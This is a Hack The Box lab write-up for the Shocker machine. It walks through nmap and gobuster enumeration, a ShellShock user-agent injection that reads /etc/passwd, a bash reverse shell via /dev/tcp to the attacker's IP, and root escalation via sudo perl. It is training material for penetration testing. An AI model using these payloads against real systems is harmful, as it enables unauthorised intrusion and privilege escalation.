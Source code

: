 ```yaml
---
title: ShellShock
layout: default
parent: Hack the Box OSCP Like
nav_order: 3
has_children: false
---
```


![ShellShock](Pasted image 20220623155820.png)

<button type="button" name="button" class="btn">#ShellShock</button>
# Enumeration
---
## NMAP
```bash
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ nmap -sC -sV 10.10.10.56 > nmap.txt
─[us-vip-4]─[10.10.14.8]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ cat nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 22:59 BST
Nmap scan report for 10.10.10.56
Host is up (0.054s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
```

## Visual
Navigated to the site (apache is running) and saw this:  
![Bug](Pasted image 20220623162301.png)

Page source doesn't contain a whole lot:
```html
 <!DOCTYPE html>
<html>
<body>

<h2>Don't Bug Me!</h2>
<img src="bug.jpg" alt="bug" style="width:450px;height:350px;">

</body>
</html>
```

## GoBuster
Gobuster directory enumeration results in the following:
```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[~/Downloads]
└──╼ [★]$ gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/24 21:32:32 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/cgi-bin/             (Status: 403) [Size: 294]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
```

Based on the below reading, I knew we were looking for a .sh file (assuming ShellShock) inside of /cgi-bin. I may have used a hammer here with the 'big.txt' wordlist, but it proved successful:
```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[~]
└──╼ [★]$ gobuster dir -e -u http://10.10.10.56/cgi-bin -w /usr/share/seclists/Discovery/Web-Content/big.txt -x sh,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh,php
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2022/06/24 22:54:56 Starting gobuster in directory enumeration mode
===============================================================
http://10.10.10.56/cgi-bin/.htpasswd            (Status: 403) [Size: 303]
http://10.10.10.56/cgi-bin/.htaccess.php        (Status: 403) [Size: 307]
http://10.10.10.56/cgi-bin/.htpasswd.sh         (Status: 403) [Size: 306]
http://10.10.10.56/cgi-bin/.htaccess.sh         (Status: 403) [Size: 306]
http://10.10.10.56/cgi-bin/.htaccess            (Status: 403) [Size: 303]
http://10.10.10.56/cgi-bin/.htpasswd.php        (Status: 403) [Size: 307]
http://10.10.10.56/cgi-bin/user.sh              (Status: 200) [Size: 118]

===============================================================
2022/06/24 22:57:17 Finished
===============================================================
```

## Reading
---
CGI-BIN is the only item here that looks unique and/or different. Performed some quick research and will attach that info here. Based on the version of apache and the name of the machine, we'll start looking into ShellShock and related exploits.

What is a CGI-Bin? - Definition from Techopedia
https://www.techopedia.com › ... › DevOps › CGI-Bin
A CGI-bin is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website.

CGI - HackTricks
https://book.hacktricks.xyz › pentesting-web › cgi
The CGI scripts are perl scripts, so, if you have compromised a server that ... You could find this vulnerability noticing that it is using an old Apache ...

Apache HTTP Server Path Traversal & Remote Code ...
https://blog.qualys.com › 2021/10/27 › apache-http-ser...
Oct 27, 2021 — On October 4, 2021, Apache HTTP Server Project released Security advisory on a Path traversal and File disclosure vulnerability in Apache ...

Apache mod_cgi - 'Shellshock' Remote Command Injection
https://www.exploit-db.com › exploits
Oct 6, 2014 — CVE-2014-6278 CVE-2014-6271 . remote exploit for Linux platform. ... #!/usr/bin/env python from socket import * from threading import Thread ...

# Exploitation
---
From our previous gobuster results, we found 'user.sh'. Navigating to http://10.10.10.56/cgi-bin/user.sh downloads the file successfully.
[GitHub](https://github.com/opsxcq/exploit-CVE-2014-6271) Link to exploit and test environment

## POC
From the github link above, we ran this command against the machine and it did, in fact, cat out the /etc/passwd file. This indicates that we should be able to initiate a reverse shell (or send through any other command) successfully.
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'"
 http://localhost:8080/cgi-bin/user.sh
```

## FootHold
Pulled the syntax for a bash reverse shell from this [Link](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/) after my regular nc IP PORT command didn't take. I started netcat in a separate window and began the listener, ran this one through via my first terminal and confirmed a reverse shell.
```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[~/Downloads]
└──╼ [★]$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

```bash
─[us-vip-4]─[10.10.14.14]─[htb-ghohst@pwnbox-base]─[/usr/share]
└──╼ [★]$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.56] 57980
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
```

Navigated to ~, found user.txt, cat'd it out and submitted the flag.

## Privilege Escalation

Started with a typical sudo -l and found we can run perl as root:
```bash
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Tried my hand at sudo perl -e /bin/bash but the syntax wasn't right (obviously). Identified the correct syntax via [GTFOBins](https://gtfobins.github.io/gtfobins/perl/)
```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
whoami
root
```

Navigated to ~, cat'd out root.txt, submitted the flag.

## Failures
### SSH
Started with SSH and identified the following [Exploit](https://www.exploit-db.com/exploits/40136) via searchsploit and exploit-db.
Downloaded the script for later use. I don't think it will be SSH as the aforementioned exploit mostly revolves around user enumeration.

We'll maybe perform the user enumeration just in case.
Running the script gives me a paramiko error, so we'll get that installed as per the [Site](https://www.paramiko.org/installing.html)
```bash
pip install paramiko
```

Had to update the python script to utilize time.perf_counter() instead of time.clock() as it has been deprecated per this article [Link](https://stackoverflow.com/questions/58569361/attributeerror-module-time-has-no-attribute-clock-in-python-3-8)

It seems like we're getting way too many hits on usernames and perhaps this isn't functioning as expected. I think I'm going to move on to apache enumeration, but we'll hold on to this line for later if we want to revisit:
```
python3 40136.py -U /usr/share/SecLists/Usernames/Names/names.txt 10.10.10.56:2222 > username.txt &
```
